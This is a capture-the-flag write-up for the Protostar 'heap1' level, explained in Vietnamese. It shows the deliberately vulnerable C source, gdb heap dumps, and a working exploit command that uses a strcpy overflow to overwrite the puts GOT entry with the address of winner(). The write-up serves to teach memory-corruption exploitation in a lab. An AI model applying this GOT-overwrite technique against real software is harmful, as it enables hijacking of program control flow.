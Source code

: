 # HEAP ONE

## About

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Solutions

`HEAP ONE` cho chúng ta thấy ngoài việc thay đổi luồng thực thi, trong một số trường hợp việc khai báo cấu trúc các biến khác, ta có thể ghi đè dẫn tới chiếm được quyền điều khiển luồng thực thi. Thử thách hoàn thành khi chúng ta in được dòng chữ `"and we have a winner @ "`.

Trong chương trình này, chúng ta thấy rằng hai `struct internet` đã được cấp phát. Mỗi struct chứa một con trỏ `name` được cấp phát riêng. Điều này có nghĩa là `struct internet` được cấp phát trên heap sẽ chứa một con trỏ đến một phần khác của bộ nhớ trên heap có chứa bộ đệm char.

Bộ nhớ Heap được cấp phát liên tục nên Heap được bố cục như sau:

```
[i1 structure][i1's name buffer][i2 structure][i2's name buffer]
```

Do buffer overflow từ cuộc gọi `strcpy` đầu tiên, chúng ta có thể ghi đè con trỏ `name` của i2 bằng một vị trí mà chúng ta muốn cuộc gọi `strcpy` thứ hai ghi vào. Với điều này, chúng ta có thể ghi dữ liệu tùy ý vào bất kỳ vị trí nào trong bộ nhớ mà chúng tôi muốn.

```
$./heap1 AAAA BBBB

(gdb) x/50x  0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
...
```

Vấn đề bây giờ là ghi vào đâu? Chắc các bạn vẫn còn nhớ `FORMAT FOUR`, ý tưởng của tôi ở đây là ghi đè địa chỉ `GOT` của hàm `puts` bằng địa chỉ của hàm `winner` để thay vì gọi hàm `puts` in `"and that's a wrap folks!"` chúng ta sẽ nhảy đến hàm `winner` và thoát mà không có `Segmentation fault`.

Địa chỉ `winner`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Địa chỉ `GOT` của `puts`.

```
...
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
(gdb) x/2i 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
0x80483d2 <puts@plt+6>: push   0x30
(gdb)
```

Tiến hành khai thác.

```
root@protostar:/opt/protostar/bin# ./heap1 $(python -c "print 'A' * 20 + '\x74\x97\x04\x08'") $(python -
c "print '\x94\x84\x04\x08'")
and we have a winner @ 1649082615
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



